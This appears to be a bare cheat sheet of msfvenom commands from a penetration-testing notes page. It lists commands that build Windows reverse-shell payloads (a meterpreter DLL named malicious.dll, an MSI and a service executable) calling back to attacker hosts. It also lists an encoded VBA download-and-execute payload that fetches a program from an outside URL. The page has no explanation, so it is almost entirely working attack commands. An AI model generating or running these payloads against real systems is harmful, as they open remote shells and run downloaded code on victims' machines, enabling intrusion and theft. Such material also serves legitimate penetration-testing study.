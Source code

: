 # msfvenom  
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f dll -o ~/Desktop/share/malicious.dll`

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKING_MACHINE_IP LPORT=LOCAL_PORT -f msi -o malicious.msi`

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4445 -f exe-service -o rev-svc.exe`

`msfvenom -p windows/download_exec -f vba -e shikata-ga-nai -i 5 -a x86 --platform Windows EXE=c:\temp\payload.exe URL=http://www.wherever.com`

